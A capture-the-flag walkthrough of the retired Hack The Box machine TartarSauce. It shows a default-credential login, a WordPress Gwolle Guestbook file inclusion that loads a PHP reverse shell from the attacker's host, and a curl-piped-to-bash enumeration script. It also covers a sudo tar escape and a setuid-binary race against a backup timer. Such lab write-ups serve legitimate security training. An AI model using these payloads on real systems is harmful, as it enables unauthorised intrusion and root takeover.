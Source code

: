 # TartarSauce

This is the write-up for the box TartarSauce that got retired at the 20th October 2018.
My IP address was 10.10.14.12 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.88    tartarsauce.htb
```

## Enumeration

Starting with a Nmap scan:

```markdown
nmap -sC -sV -o nmap/tartarsauce.nmap 10.10.10.88
```

```markdown
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 5 disallowed entries
| /webservices/tar/tar/source/
| /webservices/monstra-3.0.4/ /webservices/easy-file-uploader/
|_/webservices/developmental/ /webservices/phpmyadmin/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Landing Page
```

## Checking HTTP (Port 80)

On the web page is ASCII art of a TartarSauce bottle and nothing interesting in the HTML source code.
The initial Nmap scan found _robots.txt_ with 5 different directories:
- /webservices/tar/tar/source/
  - HTTP error code _404 Not Found_
- /webservices/monstra-3.0.4/
  - Blog page powered by **Monstra 3.0.4**, which is an open-source CMS
  - Login page on _/webservices/monstra-3.0.4/admin/_
- /webservices/easy-file-uploader/
  - HTTP error code _404 Not Found_
- /webservices/developmental/
  - HTTP error code _404 Not Found_
- /webservices/phpmyadmin/
  - HTTP error code _404 Not Found_

Only the **Monstra** directory responses back and when trying out some default credentials at the login page, the credentials _admin:admin_ work.
After analyzing the platform for a while, it seems like that it is not possible to modify any files nor upload anything to gain command execution.

Lets search for more hidden paths in _/webservices_ with **Gobuster**:
```markdown
gobuster -u http://10.10.10.88/webservices dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds one more directory called _/wp_ where it hosts a **WordPress** page, but it looks broken.
In the HTML source code, there is a mistake about the absolute URLs with wrong syntax:
```html
(...)
<link rel="alternate" type="application/rss+xml" title="Test blog &raquo; Feed" href="http:/10.10.10.88/webservices/wp/index.php/feed/" />
<link rel="alternate" type="application/rss+xml" title="Test blog &raquo; Comments Feed" href="http:/10.10.10.88/webservices/wp/index.php/comments/feed/" />
(...)
```

They are all missing a slash (/) character in _"http:/"_. To load the page correctly, it is possible to configure a local proxy like **Burpsuite** to replace this string with the correct syntax:

![Burpsuite match and replace](tartarsauce_web-1.png)

After refreshing the web page, it loads the scripts and looks better.
The tool **Wpscan** is practical, to scan WordPress pages, plugins, etc. for vulnerabilities:
```markdown
wpscan --url http://10.10.10.88/webservices/wp -e ap
```

It may find the plugin _Gwolle Guestbook <= 2.5.3_ and when searching for vulnerabilities with **Searchsploit**, it finds a **Remote File Inclusion** vulnerability:
```markdown
searchsploit gwolle

# Output
WordPress Plugin Gwolle Guestbook 1.5.3 - Remote File Inclusion
```

It works by sending a request to the following path:
```markdown
http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]
```

Lets test this with our local client:
```markdown
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12/test
```

After sending the request, the listener on my IP and port 80 gets a connection from the box and the vulnerability appends _wp-load.php_ at the end of the request:
```markdown
Ncat: Connection from 10.10.10.88:42002.
GET /testwp-load.php HTTP/1.0
Host: 10.10.14.12
Connection: close
```

This means the RFI works and by sending PHP code, it is possible to get a reverse shell session on the box.
The reverse shell I will be using is _php-reverse-shell.php_ from the **Laudanum** scripts, but it has to be renamed to _wp-load.php_.
```markdown
http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.12/
```

After sending it, _wp-load.php_ gets appended to the request, downloads the PHP reverse shell and the listener on my IP and port 9001 starts a connection on the box as _www-data_.

## Privilege Escalation

To get an attack surface on the box, any **Linux Enumeration Script** should be run:
```markdown
curl 10.10.14.12/LinEnum.sh | bash
```

The sudo privileges of _www-data_ is allowing the execution of `tar` as the user _onuma_ without a password:
```markdown
sudo -l

# Output
(...)
User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Checking on [GTFOBins](https://gtfobins.github.io/) that `tar` can run system commands with `sudo` in the context of another user:
```markdown
sudo -u onuma tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/bash
```

This starts a bash session as _onuma_.

### Privilege Escalation to root

After executing the **Linux Enumeration Script** again as _onuma_, we find that there are running **Systemd timers**.
One of those is a non-default timer called _backuperer.timer_ that runs every five minutes.

Lets locate what it does:
```markdown
locate backuperer
```

It was found in _/usr/sbin/backuperer_ and is a bash script that does the following every five minutes:
1. Deletes created files in _/var/tmp_
2. `tar` _/var/www/html_ to _/var/tmp/$RANDOM_NAME_ in the background
3. `sleep` for 30 seconds
4. Extract created files and integrity check between _/var/www/html_ and _/var/tmp/check/var/www/html_ with `diff`
5. If integrity check is successful, exit with error exit code (2). Else, delete files and exit with successful exit code (0)

If a directory is not valid, it will fail and delete the files.
If all directories exist, it will exit out of the program and what we have to figure out now, is how to make the integrity check fail to get to that state.
To do that, we need to create an archive that has _/var/www/html_ in it and when its getting extracted, it adds the directories and the `diff` command becomes valid.

```markdown
cd /var/tmp
mkdir -p var/www/html
```

To get command execution we place a binary with the _setuid bit_ in there, because `tar` keeps the file permissions even after extracting.
So when it gets extracted, the binary will keep the _setuid bit_ and is executable as root.

I will compile this code that creates a binary with the correct file permission that runs _/bin/sh_:
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

int main( int argc, char *argv[] )
{
        setreuid(0, 0);
        execve("/bin/sh", NULL, NULL);
}   
```
```markdown
gcc -m32 -o shell exec.c
```

Moving _shell_ into local _var/www/html_ directory and `tar` up the directory:
```markdown
mkdir var/www/html
mv shell var/www/html
chmod 6555 var/www/html/shell
tar -zcvf shell.tar.gz var/
```

Uploading _shell.tar.gz_ to the directory _/var/tmp/var/www/html_ on the box:
```markdown
# On client
nc -lvnp 9002 < shell.tar.gz

# On the box
nc 10.10.14.12 9002 > shell.tar.gz
```

Now waiting until the _backuperer_ job runs. To follow the time, the `watch` command is useful:
```markdown
watch -n 1 'systemctl list-timers'
```

When it runs, it creates a hidden file with a random name in _/var/tmp/_ and we have to rename our _shell.tar.gz_ as the name of that new file:
```markdown
cp shell.tar.gz .7c1f2149bd7924dc3f98e0b04e64bbda5ecf85f0
```

This has to be done before the time hits the 30 seconds mark, because then it creates the folder _check_ in which the binary got extracted into that is now owned by root and has the setuid bit set. This is the binary created by us to execute now:
```markdown
cd /var/tmp/check/var/www/html

./shell
```

After executing _shell_ a shell session as root starts!
